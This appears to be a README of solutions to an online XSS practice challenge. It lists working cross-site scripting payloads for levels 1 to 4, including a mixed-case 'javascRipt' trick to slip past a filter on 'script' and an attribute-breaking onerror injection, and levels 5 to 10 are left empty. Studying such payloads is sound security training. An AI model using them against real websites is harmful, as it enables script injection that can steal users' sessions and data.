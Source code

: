 # XSS Challanges from https://www.zixem.altervista.org/XSS

## Level 1

```html
<svg/onload=alert()>
```
## Level 2

- WAF looking for "script"

```html
<object data="javascRipt:alert()">
```

## Level 3

- %0A (LF = linefeed)

```html
%0A<svg/onload=alert()>
```

## Level 4

- Inline html

```html
x' onerror=javascript:alert()//
```

## Level 5

## Level 6

## Level 7

## Level 8

## Level 9

## Level 10
